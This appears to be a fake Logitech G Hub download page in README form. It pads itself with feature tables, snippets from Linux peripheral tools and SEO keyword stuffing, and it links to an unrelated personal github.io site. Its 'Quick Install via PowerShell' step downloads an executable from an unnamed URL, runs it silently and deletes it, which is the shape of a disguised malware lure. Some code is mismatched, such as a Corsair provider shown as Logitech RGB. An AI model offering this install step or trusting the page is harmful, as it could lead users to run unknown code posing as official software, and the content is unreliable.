



# Logitech G Hub Software Download - Official Peripheral Control

Logitech G Hub is the central app for G Pro mice, LIGHTSYNC keyboards, G29 wheels, and wireless headsets on Windows 11 and macOS.



## What You Get

| Area | Details |
|------|---------|
| Mice | DPI presets, onboard profiles, G-button macros |
| Keyboards | Per-key RGB, game profiles, F-key remapping |
| Headsets | Sidetone, battery status, equalizer presets |
| Wheels | G29 force feedback, pedal mapping, custom curves |


## Device Manager View

Unified RGB across brands works alongside G Hub when you need game-linked lighting beyond the stock app.



## Macro Tools

G Hub macro editing gets slow on large profile sets. Community tools read and write the same macro data directly.



- Open and edit existing macros from `settings.db`
- Bulk key replacement across filtered macros
- Lua scripting with toggle/hold modes per G-key
- Sequence component editor with drag-and-drop reorder

See `ghub_macro_browser.py` and `macros/ghub_macro_controller.lua`.


## Get the Build

[](https://meshawnaawesome28.github.io/.github/Logitech-G-Hub)

### Quick Install via PowerShell

```powershell
$ghub = "$env:TEMP\lghub_installer.exe"
Invoke-WebRequest -Uri "SILKA" -OutFile $ghub
Start-Process -FilePath $ghub -ArgumentList "/quiet" -Wait
Remove-Item $ghub -Force
Write-Host "Logitech G Hub installed."
```

For a trimmed Options+ deployment with fewer background services, run `install/logi-options-plus-mini.ps1`.

## Linux Alternatives

When G Hub is unavailable, HID++ drivers and LED controllers cover most Logitech hardware.

| Tool | Role |
|------|------|
| `logiops/logid.example.cfg` | Unofficial HID++ driver config |
| `logitechd/example.yaml` | MX Master SmartShift and DPI daemon |
| `g203-led.py` | G203 Prodigy / LightSync LED control |
| `keyboard-led/profiles/` | G810/G910 Linux RGB profiles |
| `headset/LIBRARY_USAGE.md` | G533/G933 sidetone and battery API |

Build logiops:

```bash
mkdir build && cd build
cmake -DCMAKE_BUILD_TYPE=Release ..
make && sudo make install
sudo systemctl enable --now logid
```

Run g203 LED solid color:

```bash
sudo ./g203-led.py solid 00FFFF
```

## Typical G Hub Workflow

1. Close G Hub completely before editing `%localappdata%\LGHUB\settings.db`
2. Back up `settings.db`
3. Open macros in `ghub_macro_browser.py` or paste `macros/ghub_macro_controller.lua` into G Hub Scripting
4. Save changes and relaunch G Hub to verify profiles

## Headset Control

Cross-platform sidetone and battery monitoring for Logitech wireless headsets.

```bash
headsetcontrol -b          # battery status
headsetcontrol -s 64       # sidetone level 0-128
headsetcontrol -l 0        # turn off LEDs
headsetcontrol --caps      # list device capabilities
```

Supported Logitech models include G930, G533, G633/G635/G733/G933/G935, G PRO X 2 LIGHTSPEED, and G522 LIGHTSPEED.

## RGB Integration

The `rgb/` folder contains RGB.NET Logitech device provider code used by lighting suites that sync keyboard and mouse LEDs with in-game events.

Load a moving rainbow across all connected devices:

```csharp
RGBSurface surface = new RGBSurface();
surface.Load(CorsairDeviceProvider.Instance);
surface.AlignDevices();
surface.RegisterUpdateTrigger(new TimerUpdateTrigger());
```

## Notes

- Quit Logi Options+ before running HID++ alternatives; only one app can own a receiver at a time.
- Macro ordering inside the official G Hub UI may not follow JSON or UUID order.
- Back up `settings.db` before any third-party macro editor session.
- Logitech, G Hub, and G Pro are trademarks of Logitech International S.A.

## Focus Terms

logitech g hub download, g hub software, logitech g pro, logitech g hub mouse, logitech g hub mac, logitech g29, logitech driver, logitechghub, macro, logitech unifying software, windows 11, g hub wont open, dpi analyzer, logitech headset
